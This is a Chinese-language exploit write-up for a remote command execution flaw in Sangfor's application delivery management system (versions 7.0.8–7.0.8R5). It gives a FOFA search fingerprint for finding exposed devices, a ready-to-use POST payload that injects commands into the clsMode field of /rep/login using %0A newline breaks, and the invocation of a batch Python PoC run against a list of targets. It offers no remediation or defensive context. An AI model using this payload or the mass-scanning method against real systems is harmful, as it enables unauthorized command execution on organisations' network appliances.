 # 深信服应用交付系统远程命令执行

## 漏洞描述

深信服/rep/login下clsMode在处理方法名时可绕过执行

## 漏洞影响

```
深信服 应用交付管理系统 7.0.8-7.0.8R5
```

## FOFA

```
fid="iaytNA57019/kADk8Nev7g=="
```

## 漏洞复现

登陆页面

![image-20230814103011624](img/image-20230814103011624.png)

目录特征/rep/login

![image-20230814103128348](img/image-20230814103128348.png)

验证POC,clsMode字段%0A截断

```
POST /rep/login
Host:X

clsMode=cls_mode_login%0A需要执行的命令%0A&index=index&log_type=report&loginType=account&page=login&rnd=0&userID=admin&userPsw=123
```

![image-20230814110846432](img/image-20230814110846432.png)

python批量poc

```
python sxfADRCE.py -t xxx.txt
```



